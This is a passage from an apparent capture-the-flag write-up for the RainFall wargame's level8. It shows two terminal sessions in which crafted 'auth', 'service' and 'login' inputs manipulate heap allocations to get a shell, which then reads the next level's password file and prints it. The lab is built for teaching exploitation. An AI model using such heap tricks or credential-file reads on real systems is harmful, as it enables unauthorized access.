 ```bash
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth 
0x804a008, (nil) 
service0000000000000000
0x804a008, 0x804a018 
login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

Or we can even just allocate one more time:

```bash
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth 
0x804a008, (nil) 
service
0x804a008, 0x804a018 
service
0x804a008, 0x804a028 
login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```